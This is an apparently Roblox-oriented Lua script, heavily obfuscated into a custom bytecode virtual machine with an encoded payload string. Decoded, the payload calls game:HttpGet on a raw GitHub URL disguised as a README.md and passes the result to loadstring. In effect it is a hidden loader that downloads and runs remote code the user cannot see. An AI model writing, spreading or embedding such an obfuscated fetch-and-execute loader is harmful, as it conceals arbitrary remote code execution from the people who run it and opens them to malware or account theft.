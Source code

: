 local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v83=v2(v0(v30,16));if v19 then local v90=v5(v83,v19);v19=nil;return v90;else return v83;end end end);local function v20(v31,v32,v33) if v33 then local v84=(v31/((5 -3)^(v32-(2 -1))))%((3 -(1 + 0))^(((v33-1) -(v32-1)) + (2 -1))) ;return v84-(v84%(620 -(555 + 64))) ;else local v85=(933 -(857 + 74))^(v32-(569 -(367 + (1078 -(282 + 595))))) ;return (((v31%(v85 + v85))>=v85) and (928 -(214 + 713))) or (0 + 0) ;end end local function v21() local v34=(7128 -5491) -(1523 + 114) ;local v35;while true do if (v34==(1 + (117 -(32 + 85)))) then return v35;end if (v34==(0 -0)) then v35=v1(v16,v18,v18);v18=v18 + ((1045 + 21) -(68 + 222 + 775)) ;v34=1271 -(226 + 1044) ;end end end local function v22() local v36,v37=v1(v16,v18,v18 + 2 );v18=v18 + (959 -(892 + 65)) ;return (v37 * (610 -354)) + v36 ;end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + (5 -2) );v18=v18 + (7 -3) ;return (v41 * ((41191679 -24414113) -(87 + 263))) + (v40 * (65716 -(67 + 113))) + (v39 * (139 + 49 + 68)) + v38 ;end local function v24() local v42=0 -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==((1726 -(201 + 571)) -(802 + 150))) then v47=v20(v44,(1542 -(998 + 488)) -35 ,55 -24 );v48=((v20(v44,32)==(1 + 0)) and  -(998 -(915 + 82))) or (2 -1) ;v42=3;end if (v42==((1139 -(116 + 1022)) + 0)) then v45=1 -0 ;v46=(v20(v44,1188 -(1069 + 118) ,45 -25 ) * (((12 -9) -1)^(6 + 26))) + v43 ;v42=2;end if (v42==(2 + 1)) then if (v47==(0 -(0 -0))) then if (v46==(0 + 0)) then return v48 * ((252 + 539) -(368 + 423)) ;else v47=3 -2 ;v45=18 -(10 + 8) ;end elseif (v47==(7874 -5827)) then return ((v46==(442 -(416 + 26))) and (v48 * ((3 -2)/0))) or (v48 * NaN) ;end return v8(v48,v47-1023 ) * (v45 + (v46/((1 + 1)^(91 -39)))) ;end if (v42==(438 -(145 + 293))) then v43=v23();v44=v23();v42=431 -((156 -112) + 317 + 69) ;end end end local function v25(v49) local v50;if  not v49 then local v86=859 -(814 + 45) ;while true do if (v86==0) then v49=v23();if (v49==(0 -0)) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -((886 -(261 + 624)) + 0) );v18=v18 + v49 ;local v51={};for v66=1 + 0 , #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 241 -(187 + 54) ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do local v68=(function() return 0 -0 ;end)();while true do if (v68~=(1 -0)) then else if (v52==(1520 -(1191 + 327))) then v57[ #"asd"]=(function() return v21();end)();for v97= #"[",v23() do local v98=(function() return v21();end)();if (v20(v98, #",", #"[")~=(0 + 0)) then else local v100=(function() return 0 + 0 ;end)();local v101=(function() return;end)();local v102=(function() return;end)();local v103=(function() return;end)();while true do if (v100==(699 -(208 + 490))) then local v147=(function() return 0 -0 ;end)();local v148=(function() return;end)();while true do if (v147==0) then v148=(function() return 0 + 0 ;end)();while true do if (v148==(0 + 0)) then v103=(function() return {v22(),v22(),nil,nil};end)();if (v101==(836 -(660 + 176))) then local v164=(function() return 0 + 0 ;end)();while true do if (v164==0) then v103[ #"19("]=(function() return v22();end)();v103[ #"0313"]=(function() return v22();end)();break;end end elseif (v101== #",") then v103[ #"xnx"]=(function() return v23();end)();elseif (v101==2) then v103[ #"19("]=(function() return v23() -((2 -0)^(218 -(14 + 188))) ;end)();elseif (v101== #"19(") then local v171=(function() return 675 -(534 + 141) ;end)();local v172=(function() return;end)();while true do if (v171==0) then v172=(function() return 1384 -(746 + 638) ;end)();while true do if (v172==(0 + 0)) then v103[ #"xxx"]=(function() return v23() -((2 + 0)^(7 + 9)) ;end)();v103[ #"xnxx"]=(function() return v22();end)();break;end end break;end end end v148=(function() return 1 + 0 ;end)();end if (v148~=(1 -0)) then else v100=(function() return 2 -0 ;end)();break;end end break;end end end if ((343 -(218 + 123))~=v100) then else if (v20(v102, #"/", #"}")~= #",") then else v103[5 -3 ]=(function() return v59[v103[2]];end)();end if (v20(v102,2 + 0 ,2)~= #"!") then else v103[ #"-19"]=(function() return v59[v103[ #"-19"]];end)();end v100=(function() return 3;end)();end if (v100~=(0 + 0)) then else v101=(function() return v20(v98,2 + 0 , #"19(");end)();v102=(function() return v20(v98, #"?id=",4 + 2 );end)();v100=(function() return 397 -(115 + 281) ;end)();end if ((6 -3)==v100) then if (v20(v102, #"gha", #"xxx")== #"|") then v103[ #"?id="]=(function() return v59[v103[ #"asd1"]];end)();end v54[v97]=(function() return v103;end)();break;end end end end for v99= #"|",v23() do v55,v99,v28=(function() return v53(v55,v99,v28);end)();end return v57;end break;end if (v68==(0 + 0)) then local v91=(function() return 0 -0 ;end)();while true do if (v91~=(1468 -(899 + 568))) then else v68=(function() return 1 + 0 ;end)();break;end if (v91==0) then if ((2 -1)~=v52) then else v57=(function() return {v54,v55,nil,v56};end)();v58=(function() return v23();end)();v59=(function() return {};end)();for v106= #"!",v58 do local v107=(function() return 603 -(268 + 335) ;end)();local v108=(function() return;end)();local v109=(function() return;end)();local v110=(function() return;end)();while true do if (v107==(290 -(60 + 230))) then local v150=(function() return 0 -0 ;end)();while true do if (v150==(867 -(550 + 317))) then v108=(function() return 0 + 0 ;end)();v109=(function() return nil;end)();v150=(function() return 1 -0 ;end)();end if (v150==(1 -0)) then v107=(function() return 1;end)();break;end end end if ((2 -1)~=v107) then else v110=(function() return nil;end)();while true do if ((285 -(134 + 151))~=v108) then else v109=(function() return v21();end)();v110=(function() return nil;end)();v108=(function() return 1666 -(970 + 695) ;end)();end if (v108==1) then if (v109== #">") then v110=(function() return v21()~=0 ;end)();elseif (v109==2) then v110=(function() return v24();end)();elseif (v109~= #"-19") then else v110=(function() return v25();end)();end v59[v106]=(function() return v110;end)();break;end end break;end end end v52=(function() return 2;end)();end if (v52~=(0 -0)) then else local v104=(function() return 1990 -(582 + 1408) ;end)();local v105=(function() return;end)();while true do if (v104~=(0 -0)) then else v105=(function() return 0 -0 ;end)();while true do if (v105==1) then v55=(function() return {};end)();v56=(function() return {};end)();v105=(function() return 1026 -(706 + 318) ;end)();end if (v105~=(1251 -(721 + 530))) then else v53=(function() return function(v160,v161,v162) local v163=(function() return 0 -0 ;end)();while true do if (0==v163) then local v165=(function() return 1824 -(1195 + 629) ;end)();while true do if (v165~=(0 -0)) then else local v169=(function() return 0;end)();while true do if (v169~=(700 -(271 + 429))) then else v160[v161-#"}" ]=(function() return v162();end)();return v160,v161,v162;end end end end end end end;end)();v54=(function() return {};end)();v105=(function() return 1 + 0 ;end)();end if (v105~=2) then else v52=(function() return 1501 -(1408 + 92) ;end)();break;end end break;end end end v91=(function() return 1;end)();end end end end end end local function v29(v60,v61,v62) local v63=v60[(2667 -(1183 + 397)) -(461 + 625) ];local v64=v60[2 + 0 ];local v65=v60[1291 -((3022 -2029) + 295) ];return function(...) local v69=v63;local v70=v64;local v71=v65;local v72=v27;local v73=1 + 0 + 0 ;local v74= -(1172 -(418 + 753));local v75={};local v76={...};local v77=v12("#",...) -(1 + 0 + 0) ;local v78={};local v79={};for v87=738 -(542 + 196) ,v77 do if (v87>=v71) then v75[v87-v71 ]=v76[v87 + ((2 -1) -(1975 -(1913 + 62))) ];else v79[v87]=v76[v87 + 1 + 0 ];end end local v80=(v77-v71) + (305 -(244 + 60)) + 0 ;local v81;local v82;while true do v81=v69[v73];v82=v81[1 + 0 ];if (v82<=(2 + 5)) then if ((v82<=(7 -4)) or (2318>=4800)) then if ((v82<=(530 -(406 + 123))) or (142>=4749)) then if ((3926<=4134) and (v82==(1769 -(1749 + 20)))) then do return;end else v79[v81[1 + 1 + 0 ]]();end elseif ((v82>2) or (164>=2785)) then local v111=(1798 -(41 + 435)) -(1249 + 73) ;local v112;local v113;while true do if (v111==(1 + 0)) then v79[v112 + (378 -(142 + 148 + 87)) ]=v113;v79[v112]=v113[v81[(1019 -(938 + 63)) -14 ]];break;end if ((v111==(1145 -(466 + 679))) or (525==2109)) then v112=v81[4 -2 ];v113=v79[v81[8 -(13 -8) ]];v111=1901 -(106 + 1794) ;end end else local v114=v81[1 + 1 ];local v115,v116=v72(v79[v114](v13(v79,v114 + 1 + 0 ,v81[1 + 2 ])));v74=(v116 + v114) -(1 + 0) ;local v117=0 -0 ;for v141=v114,v74 do v117=v117 + (2 -1) ;v79[v141]=v115[v117];end end elseif (v82<=(10 -5)) then if ((33==33) and (v82==(118 -(4 + 110)))) then v79[v81[586 -(57 + 406 + 121) ]]=v81[1430 -(41 + 1386) ];else local v120=v81[(1230 -(936 + 189)) -(17 + 86) ];v79[v120]=v79[v120](v13(v79,v120 + 1 + 0 ,v74));end elseif (v82==(2 + 4)) then do return;end else local v122=v81[9 -7 ];local v123,v124=v72(v79[v122](v13(v79,v122 + (1 -0) ,v81[8 -5 ])));v74=(v124 + v122) -(167 -(122 + 44)) ;local v125=(1933 -(565 + 1368)) -0 ;for v144=v122,v74 do v125=v125 + (3 -(1 + 1)) ;v79[v144]=v123[v125];end end elseif (v82<=((33 -24) + 2)) then if (v82<=((1615 -(1565 + 48)) + 7)) then if (v82>(16 -8)) then local v126=v81[67 -((1691 -(1477 + 184)) + (47 -12)) ];v79[v126]=v79[v126](v13(v79,v126 + 1 + 0 ,v74));else local v128=v81[1259 -(1043 + 214) ];local v129=v79[v81[11 -8 ]];v79[v128 + (1213 -(323 + 829 + 60)) ]=v129;v79[v128]=v129[v81[(7 + 3) -(1144 -(782 + 356)) ]];end elseif ((3054<=4015) and (v82==(590 -(361 + 219)))) then v79[v81[322 -(53 + 267) ]]();else v79[v81[240 -(64 + 174) ]]=v62[v81[1 + 2 ]];end elseif (v82<=((285 -(176 + 91)) -5)) then if ((1871<3382) and (v82>(348 -(144 + 192)))) then v79[v81[858 -(564 + 292) ]]=v81[3];else v79[v81[2]]=v62[v81[416 -(15 + 398) ]];end elseif ((1293<=2166) and (v82==(996 -(18 + 964)))) then v79[v81[2 + 0 ]]={};else v79[v81[1 + 1 ]]={};end v73=v73 + (3 -2) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403553Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F485253485745472F4E48534445495547524F495548544552472F726566732F68656164732F6D61696E2F524541444D452E6D6400094Q000E7Q00120C000100013Q00120C000200023Q00200800020002000300120D000400044Q0007000200044Q000900013Q00022Q000A0001000100012Q00063Q00017Q00",v9(),...);

